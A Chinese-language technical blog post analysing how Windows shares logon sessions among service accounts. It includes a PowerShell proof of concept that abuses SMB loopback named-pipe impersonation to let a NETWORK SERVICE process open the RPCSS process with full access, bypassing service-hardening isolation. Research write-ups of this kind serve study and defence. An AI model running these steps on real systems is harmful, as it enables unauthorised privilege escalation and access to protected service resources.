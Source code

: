 ```yaml
---
date: 2025-08-02T02:55:08+08:00
title: Windows登录会话共享漏洞：突破服务加固隔离的技术分析
tags: [Windows安全, 令牌模拟, 服务隔离, SMB协议]
authors: qife
description: 本文详细分析了Windows系统中网络服务账户登录会话共享机制的安全缺陷，通过SMB命名管道实现本地环回认证，演示如何绕过服务加固隔离获取RPCSS进程的完全访问权限。
---
```


### Windows登录会话的过度共享

Windows的登录会话通常与单个经过身份验证的用户及其令牌绑定。然而对于服务账户而言情况并非如此——在服务加固机制下，同一个登录会话中可能存在多个带有不同服务组的令牌。本文将展示这种共享机制如何破坏服务加固的隔离性（至少对NETWORK SERVICE账户有效），并再次强调S-1-1-0并非安全边界。

#### 技术核心：LSASS令牌缓存机制

当LSASS为新登录会话创建令牌时，会存储该令牌以供后续检索。虽然大多数场景下这个机制无显著作用，但在网络认证时会被重新启用。观察`AcquireCredentialsHandle`API的原型时会发现`pvLogonID`参数，其说明指出：

"指向标识用户的本地唯一标识符(LUID)。此参数为文件系统进程（如网络重定向器）提供。该参数可为NULL。"

拥有TCB权限时，此参数可指定用于网络认证的登录会话ID（从令牌视角看即认证ID）。虽然常规网络认证中令牌无法跨机器跟随，但在**本地环回认证**场景下，服务端协商获得的令牌将是会话令牌而非调用方令牌。

#### 利用SMB实现权限提升

关键线索在于说明中的"网络重定向器"。最易访问且支持本地环回认证的重定向器是什么？**SMB协议**。它是否提供获取网络认证令牌的原语？**命名管道**。SMB是否以内核模式进行网络认证从而具备TCB特权？确实如此。

#### 漏洞复现（Windows 10 1909环境）

1. 首先需要NETWORK SERVICE权限的PowerShell进程（可通过作者前文方法实现）
2. 创建命名管道并监听连接：
   ```powershell
   $pipe = New-NtNamedPipeFile \\.\pipe\ABC -Win32Path
   $job = Start-Job { $pipe.Listen() }
   ```
3. 通过本地主机访问管道：
   ```powershell
   $file = Get-NtFile \\localhost\pipe\ABC -Win32Path
   Wait-Job $job | Out-Null
   ```
4. 在模拟命名管道时打开RPCSS进程：
   ```powershell
   $p = Use-NtObject($pipe.Impersonate()) { 
       Get-NtProcess -ProcessId 1152 
   }
   ```
   此时获得的访问权限为`AllAccess`，因为LSASS存储的是该登录会话中首个令牌（即RPCSS进程的令牌）。

#### 技术验证

检查模拟令牌的组列表可确认该令牌属于RPCSS服务：
```powershell
$token = Use-NtObject($pipe.Impersonate()) { 
    Get-NtToken -Impersonation 
}
$token.Groups | ? Name -Match Rpcss
```
输出显示`NT SERVICE\RpcSs`组的存在，证实了令牌来源。

#### 影响范围

此特性存在于所有登录会话，但普通用户会话的利用价值较低。需注意的是：当以NETWORK SERVICE身份访问管理共享时，实际会以RPCSS服务身份认证，可能访问该服务SID创建的文件。本文仅抛砖引玉，相信读者能发掘更多创造性利用方式。